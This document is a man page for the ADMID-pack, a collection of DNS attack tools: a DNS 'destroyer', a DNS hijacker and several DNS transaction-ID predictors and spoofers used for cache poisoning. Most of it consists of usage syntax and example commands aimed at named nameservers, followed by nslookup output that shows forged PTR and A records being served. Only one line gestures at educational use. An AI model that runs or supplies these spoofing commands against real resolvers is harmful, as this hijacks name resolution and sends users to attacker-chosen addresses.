 .\" generated with Ronn/v0.7.3
.\" http://github.com/rtomayko/ronn/tree/0.7.3
.
.TH "ADMID\-PACK" "" "June 2014" "" "admid-pack"
.
.SH "ADMdnsfuckr"
ADMdnsfuckr is a program to destroy DNS, it\'s very very simple to use\.
.
.P
Usage: \fBADMdnsfuckr <victim>\fR
.
.P
Example: \fBADMdnsfuckr bob\.lenet\.fr\fR
.
.SH "ADMsniffID"
ADMsniffID is a DNS hijacker, you need to have root and should be used for educational purposes on a private LAN\.
.
.P
Usage: \fBADMsniffID <device> <spoof IP> <spoof NAME> [type 1 or 12 ]\fR
.
.P
\fBNote\fR: type: 1 = \fBTYPE A\fR and 12 = \fBTYPE PTR\fR
.
.P
Example: \fBADMsniffID eth0 31\.3\.3\.7 www\.i\.m\.mucho\.horny\.ya 12 ( we hijack TYPE PTR )\fR
.
.P
So now if someone does \fBnslookup <one ip>\fR on a network they have:
.
.IP "" 4
.
.nf

[root]# nslookup 1\.2\.3\.4
Server: localhost
Address: 127\.0\.0\.1

Name: www\.i\.m\.mucho\.horny\.ya
Address: 1\.2\.3\.4
.
.fi
.
.IP "" 0
.
.SH "ADMsnOOfID"
You need root on a DNS with auth on a domain (like shok\.janova\.org have auth *\.janova\.org)\.
.
.P
ADMsnOOfID is a DNS id predictor (you need to have a root on a DNS or you need to priv to sniff the DNS)\.
.
.P
Usage: \fBADMsnOOfID <device to spoof> <NS victim> <your domain> <ip of your dns> <type (1,12)> <spoof name> <spoof ip> <ns with auth on spoof ip or name>\fR
.
.P
Example: \fBADMsnOOfID ppp0 NS2\.MCI\.NET janova\.org shok\.janova\.org 12 www\.i\.m\.ereet\.ya 194\.206\.23\.123 ns2\.provnet\.fr \.\.\fR
.
.P
After this, when you ask NS2\.MCI\.NET for 194\.206\.23\.123 you have:
.
.IP "" 4
.
.nf

[root]# nslookup 194\.206\.23\.123 ns2\.mci\.net
Server: ns2\.mci\.net
Address: 204\.70\.57\.242

Name: www\.i\.m\.ereet\.ya
Address: 194\.206\.23\.123
.
.fi
.
.IP "" 0
.
.P
We will use ns2\.provnet\.fr because ns2\.provnet\.fr has AUTH on 194\.206\.23\.\fIto find out who has AUTH on 194\.206\.23\.\fR you just need to do:
.
.IP "" 4
.
.nf

[root]# host \-t NS 23\.206\.194\.in\-addr\.arpa
23\.206\.194\.in\-addr\.arpa name server NS2\.PROVNET\.FR
23\.206\.194\.in\-addr\.arpa name server BOW\.RAIN\.FR
23\.206\.194\.in\-addr\.arpa name server NS1\.PROVNET\.FR
.
.fi
.
.IP "" 0
.
.P
To know the NS who have AUTH on (for example ) *\.provnet\.fr do:
.
.IP "" 4
.
.nf

[root]# host \-t NS provnet\.fr
provnet\.fr name server NS1\.provnet\.fr
provnet\.fr name server BOW\.RAIN\.fr
provnet\.fr name server NS2\.provnet\.fr
.
.fi
.
.IP "" 0
.
.P
\fBNote\fR: The entry can change; you can get NS1 first and when you send a second request you get NS2\.
.
.P
Another example for spoof type 1: \fBADMsnOOfID ppp0 ns\.mci\.net janova\.org shok\.janova\.org 1 wwwkewlya\.provnet\.fr 31\.3\.3\.7 ns1\.provnet\.fr\fR
.
.IP "" 4
.
.nf

[root]# nslookup wwwkewlya\.provnet\.fr ns\.mci\.net
Server: ns\.mci\.net
Address: 204\.70\.128\.1

Non\-authoritative answer:
Name: wwwkewlya\.provnet\.fr
Address: 31\.3\.3\.7
.
.fi
.
.IP "" 0
.
.SH "ADMnOg00d"
With ADMnOg00d you dont need to have any root on any DNS, but it still requires root on a BOX\. It\'s a DNS ID brutal predictor\.
.
.P
Usage: \fBADMnoG00D <your ip> <dns trust> <domaine trust> <ip victim> <TYPE> <spoof name> <spoof ip> <ns\.trust\.for\.the\.spoof> [ID]\fR
.
.P
Example: \fBADMnOg00d ppp45\.somewhere\.net ns1\.provnet\.fr provnet\.fr taz\.cyberstation\.fr 12 PheAr\.ADM\.n0\.g00d 194\.206\.23\.144 ns2\.provnet\.fr 7000\fR
.
.P
\fBNote\fR: I start with ID 7000 because I know the current ID of taz\.cyberstation\.fr\.
.
.P
I use ns1\.provnet\.fr and the domain *\.provnet\.fr only to find ID sO\.
.
.P
When we have found the ID we can send the REAL spoof, and after that we have:
.
.IP "" 4
.
.nf

[root1]# nslookup 194\.206\.23\.144 taz\.cyberstation\.fr
Server: taz\.cyberstation\.fr
Address: 194\.98\.136\.1

Name: PheAr\.ADM\.n0\.g00d
Address: 194\.206\.23\.144
.
.fi
.
.IP "" 0
.
.P
Another example for spoof type 1: \fBADMnOg00d ppp45\.somewhere\.net ns1\.provnet\.fr provnet\.fr taz\.cyberstation\.fr 1 w00c0w\.provnet\.fr 2\.6\.0\.0 ns1\.provnet\.fr 7000\fR:
.
.IP "" 4
.
.nf

nslookup w00c0w\.provnet\.fr taz\.cyberstation\.fr

Server: taz\.cyberstation\.fr
Address: 194\.98\.136\.1

Non\-authoritative answer:
Name: w00c0w\.provnet\.fr
Address: 2\.6\.0\.0

/* w00w00ify\'d w00c0w does ++rool supreme\.
 w00w00ify\'d w00c0w does ++rool supreme\.
 w00w00ify\'d w00c0w does ++rool supreme\.
 w00w00ify\'d w00c0w does ++rool supreme\.
 w00w00ify\'d w00c0w does ++rool supreme\.
 w00w00ify\'d w00c0w does ++rool supreme\.
 w00w00ify\'d w00c0w does ++rool supreme\. */
.
.fi
.
.IP "" 0
.
.SH "ADMkillDNS"
ADMkillDNS is a BRUTAL ID spoofer it is the first DNS tools written in \'97\.
.
.P
The included help in here is very complete no need to talk any more about it\.
